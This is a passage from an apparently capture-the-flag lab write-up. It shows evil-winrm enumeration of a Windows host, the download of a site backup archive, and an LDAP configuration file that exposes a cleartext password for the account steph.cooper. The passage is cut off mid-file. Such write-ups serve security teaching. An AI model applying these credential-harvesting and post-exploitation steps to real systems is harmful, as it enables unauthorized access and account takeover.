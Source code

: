### ⬆️ Privilege Escalation

<p class="indent-paragraph">
With initial access established through<code>evil-winrm</code> as <span class="blue">adam.silver</span>, our focus shifted to enumeration for potential privilege escalation. Listing the contents of the root directory (<code>C:\</code>), a<code>Backups</code> folder stood out. Navigating into it revealed a single archive:<code>site-backup-2024-12-30.zip</code><span class="codefix">.</span> Using<code>evil-winrm</code>'s<code>download</code> functionality, we retrieved the file locally for further inspection, a promising lead for credential reuse or sensitive configuration leakage.
</p>

```
~$ *Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          4/4/2025   3:40 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---         5/29/2025   2:11 PM                Users
d-----         5/13/2025   4:40 PM                Windows

*Evil-WinRM* PS C:\> dir Backups

    Directory: C:\Backups

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip


*Evil-WinRM* PS C:\> cd Backups
*Evil-WinRM* PS C:\Backups> download site-backup-2024-12-30.zip
                                        
Info: Downloading C:\Backups\site-backup-2024-12-30.zip to site-backup-2024-12-30.zip
```

<p class="indent-paragraph">
After transferring and extracting the archive locally, we uncovered a configuration file:<code>nms-auth-config.xml.bak</code><span class="codefix">.</span> This file contained hardcoded LDAP credentials for the account<code>steph.cooper</code><span class="codefix">,</span> with the cleartext password<code>ChefSteph2025!</code><span class="codefix">.</span> These credentials, stored within the<code>bind-dn</code> and<code>bind-password</code> fields, suggest privileged access to the domain controller's LDAP service, offering a potential path toward privilege escalation.
</p>

```
~$ unzip site-backup-2024-12-30.zip -d extracted_backup
                            
total 20
drwxrwxr-x 6 kali kali 4096 Dec 31  1979 assets
drwxrwxr-x 2 kali kali 4096 Dec 31  1979 images
-rw-rw-r-- 1 kali kali 7258 Dec 31  1979 index.html
-rw-r--r-- 1 kali kali  864 Dec 31  1979 nms-auth-config.xml.bak
                                                                                      
~$ cat nms-auth-config.xml.bak

<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
```